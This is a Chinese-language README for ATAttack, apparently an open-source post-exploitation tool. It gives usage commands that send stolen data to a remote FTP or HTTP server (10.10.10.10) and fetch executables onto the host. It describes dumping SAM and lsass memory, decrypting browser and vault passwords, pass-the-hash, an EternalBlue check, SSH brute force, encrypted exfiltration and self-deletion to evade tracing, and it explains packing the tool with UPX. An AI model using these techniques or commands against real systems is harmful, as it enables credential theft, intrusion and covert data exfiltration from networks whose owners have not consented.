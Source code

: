 #### 前言

​	 每获取一台机器权限，如果每次都手动操作重复一样的信息收集工作，无疑加大了工作量，既为了能更好的获取内网进一步突破点攻击面,这段闲暇时间造了个简易的轮子，其在真实环境中发现较多未知问题，欢迎大家踊跃提交 issue 和 PR ！

#### 开发进度：

#### 简介

**ATAttack**是一款后渗透半自动化侦察工具，它从进攻性和防御性安全角度执行许多面向安全性的主机调查“安全检查”。

项目地址：https://github.com/c1y2m3/ATAttack

## 已知故障和错误列表

- 系统容错问题，增加部分功能异常处理，提高稳定性。
- 部分内网ftp协议传输限制,后期添加HTTP PUT传输。
- pyinstaller打包后的可执行文件较大，建议在纯净环境下打包可执行文件更小

####  快照预览

###### win10测试环境

![](https://www.yunzhijia.com/microblog/filesvr/5dbe4d62b54c8d19b5579f55)

win2008测试环境：

![](https://www.yunzhijia.com/microblog/filesvr/5dc59c7d28011f682aaec035)

##### 使用方法

###### cmd.exe

存储于本地临时文件夹：

```
python exploit.py
```

回传远程FTP服务器：

```
python exploit.py -t ftp_host -u ftp_user -p ftp_pwd
```

通过PUT请求回传http服务端

```
python exploit.py -d http://10.10.10.10:8000/ 
```

HTTP分块传输落地可执行文件 

```
python http_client.py -d http://10.10.10.10./exploit.exe -u http://10.10.10.10:8000/ 
```

###### 一、基础信息获取：

1、系统驱动器、主机版本信息获取,当前系统进程识别，判断是否存在杀软av进程

2、单机所有用户以及当前用户RDP远程连接导出 

3、当前系统已安装程序列表获取 ,

4、在当前用户文件夹下查找指定文件，如word、pdf、txt、csv等敏感数据


###### 二、主机网段收集:

1、基于提取系统远程连接记录，如：远程桌面，arp缓存，windows系统日志(4624、4625)等

（浏览器浏览记录、单机系统记录，系统登录日志记录筛选提取IP）

2、主流浏览器浏览记录提取，通过位操作符判断筛选私有地址去重划分网段。

###### 三、凭证获取:

1、注册表存储sam提取、在线解密  %SystemRoot%\system32\config\sam  

2、使用comsvcs.dll 中MiniDump 函数 dump指定lsass进程,

如失败则使用procdump提取lsa缓存进程，回传ftp或http服务端，半自动化离线解密  

3、通过netsh 导出系统 wifi密码[暂时删除]、Windows Vaults 普通 / WEB 凭据提取

3、主流浏览器存储密码在线|离线模式解密,目前覆盖chrome、360chrome、ie,fiefox

fiefox浏览器解密基于key3.db、key4.db，logins.json文件，密钥加密，回传文件离线解密。

4、第三方主机软件 ，如 Navicat、Putty ,foxmail在线解密 [未完成]

###### 四、横向移动

1、探测网段存活，如存活则识别对应windows系统操作版本

2、如系统版本为windows系统，则检测是否存在永恒之蓝漏洞

3、基于解密出的ntlmhash，对存活主机进行pth哈希传递攻击，执行回显命令。

4、如系统为linux则对ssh端口服务进行探测，并进行爆破ssh弱口令。


###### 五：数据回传

将获取的数据落地到本地用户Temp文件夹下存储，进行加密压缩回传，解压密钥为：

`Za!@#$@&**(aKg`，尽可能避免了网络设备溯源，程序结束后进行自删除

1、系统所安装的浏览器浏览历史记录，暂命名为update.log

2、系统所搜索的敏感数据文件存储，暂命名为drive.txt

3、通过提取lsass进程所保存的内存文件，暂命名为lsass.dmp

4、内网主机所识别对应的windows版本，归属于工作组或域主机信息，暂命名为host.txt

## 打包ATAttack二进制文件

##### 测试打包环境:

- Python 2.7.15
- PyInstaller 3.4
- Windows 10

通过[UPX](https://upx.github.io/)压缩，使得ATAttack程序落地更小

- 下载UPX(测试环境为upx-3.95-win64版本)

  `https://github.com/upx/upx/releases`

- pip安装[pyinstaller](https://www.pyinstaller.org/)

  `pip install pyinstaller`

- 进入`ATAttack`目录,并通过upx压缩

  `pyinstaller -F exploit.py --upx-dir=upx-3.95-win64`

- 成功打包二进制控制台单文件`\ATAttack\dist]\exploit.exe`


